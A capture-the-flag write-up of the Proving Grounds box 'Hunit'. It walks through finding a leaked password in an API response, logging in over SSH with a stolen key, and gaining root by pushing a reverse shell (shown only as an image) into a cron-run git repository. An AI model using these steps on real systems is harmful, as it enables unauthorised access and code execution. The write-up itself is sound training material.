# Hunit -- Proving Grounds (write-up)

**Difficulty:** Intermediate
**Box:** Hunit (Proving Grounds)
**Author:** dkrxhn
**Date:** 2025-08-31

---

## TL;DR

### Web app on port 8080 leaked credentials. Pivoted via SSH key found on box to a git shell, then abused a cron-triggered git repo to get root.
---

## Target info

- Host: `192.168.145.125`
- Services discovered: `22/tcp (ssh)`, `8080/tcp (http)`, `43022/tcp (ssh)`

---

## Enumeration

Nmap scan:



Directory brute force:

```bash
feroxbuster -u http://192.168.145.125:8080 -w /usr/share/wordlists/dirb/common.txt -n --add-slash
```





---

## Foothold

Found credentials in the API response:



Password: `ExplainSlowQuest110`





---

## Privilege escalation

Linpeas showed `/etc/crontab.bak`. Found SSH key in `/home/git/.ssh` and transferred it to my machine.

```bash
ssh -i id_rsa git@192.168.145.125 -p 43022
```

Landed in a git shell:





Cloned the git repo:

```bash
GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.145.125:/git-server
```



Added a reverse shell to `backups.sh`:



```bash
git add backups.sh
git commit -m "shell"
GIT_SSH_COMMAND='ssh -i ~/pgp/hunit/id_rsa -p 43022' git push origin master
```



Had to use port 8080 for the shell, set `chmod +x` on `backups.sh`, and wait about 3 minutes for the cron to trigger.

---

## Lessons & takeaways

- Always check API endpoints for leaked credentials
- Git shells can be leveraged by pushing malicious code to cron-triggered repos
- When a cron job runs a script from a git repo, you own it
---
